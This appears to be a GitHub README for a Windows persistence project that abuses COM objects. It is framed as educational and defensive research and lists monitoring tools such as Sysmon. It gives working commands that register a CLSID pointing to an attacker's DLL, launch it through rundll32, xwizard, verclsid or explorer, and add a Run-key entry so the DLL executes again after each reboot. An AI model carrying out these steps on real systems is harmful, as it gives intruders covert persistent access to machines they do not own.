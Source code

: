 # 🔐 COM Proxy for Persistent Attack  

## 📖 Project Description  
This project demonstrates how a **COM Proxy** can be implemented on Windows to simulate **persistence techniques**.  
The main goal is to **understand and analyze** the role of COM objects in persistence, and to provide a reference for **educational and research purposes only**.  

> ⚠️ **Important:** This project is strictly for **educational and defensive security research**.  
> Any misuse against unauthorized systems is **illegal** and the author is not responsible for any consequences.  

---

## ✨ Features  
✅ Simulates a custom COM Proxy on Windows  
✅ Creates and registers CLSIDs and `InprocServer32` entries for persistence  
✅ Demonstrates multiple execution methods (rundll32, xwizard, etc.)  
✅ Can be monitored with tools like **Sysmon**, **Process Explorer**, and **Event Viewer**  
✅ Fully compatible with modern Windows versions  

---

## 🛠️ Prerequisites  
- Windows 10 or higher   
- **Administrator privileges** to register COM objects in the registry  

---

## 🚀 Installation & Setup  

1. Clone the repository:  
```bash
git clone https://github.com/arminhosseinzadeh/Persistence-COM-Proxy.git
```

2. Open the project  

3. Run the **`clsid.ps1`** script.  
   This script creates a new **CLSID** under:  
   ```
   HKCU:\Software\Classes\CLSID\{$CLSID}\
   ```

4. Inside this path, it creates a registry subkey **`InprocServer32`** and assigns it as follows:  
   ```powershell
   New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "(default)" -Value $Payload | Out-Null
   ```

   Here, **`$Payload`** contains the path to the attacker’s DLL file:  
   ```powershell
   $Payload = "c:\mem\test.dll"
   ```


5. Once the COM object has been created and properly configured, the CLSID can be executed using one of the following commands: 

```powershell
rundll32 -sta {CLSID}
xwizard runwizard "{CLSID}"
verclsid /S /C {CLSID}
explorer shell:::{CLSID}
```

6. To make sure the malicious DLL is executed persistently, one of the above commands is placed in the Windows Run key so that after each system reboot the CLSID (pointing to the attacker’s payload) is executed again. The Windows Run key is located at:

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

For this purpose, a new subkey named Armin (or any other name) is created as follows: 
```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /V Armin /t REG_SZ /d "rundll32 -sta {CLSID}"
```

As a result, Therefore, after every reboot (which would normally break the attacker’s access), the command "rundll32 -sta {CLSID}" is executed again, restoring the attacker’s access through the malicious COM object.

---

## 📊 Monitoring & Detection  

You can observe and analyze the behavior using:  
- **Sysmon** (Registry & Process events)  
- **Event Viewer**  
- **Process Explorer / Procmon**  
- **OLE/COM Object Viewer**  

---

## ⚠️ Disclaimer  

> **Warning ⚠️**  
> This project is created **for educational and research purposes only**.  
> It is intended to demonstrate how COM proxies can be used to achieve persistence on Windows systems, and to help security professionals better understand and detect such techniques.  
>   
> - Do **NOT** use this code on systems you do not own or do not have explicit permission to test.  
> - The author(s) of this project take **no responsibility** for any misuse or damage caused by the use of this code.  
> - By using this project, you agree to use it **solely for learning, testing, and defensive security research** in isolated and controlled environments (e.g., virtual machines).  

---

## 📚 Resources  
- [Microsoft COM Documentation](https://learn.microsoft.com/en-us/windows/win32/com/component-object-model--com--portal)  
- [Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)  
- [Sysmon Reference](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)  

---

 
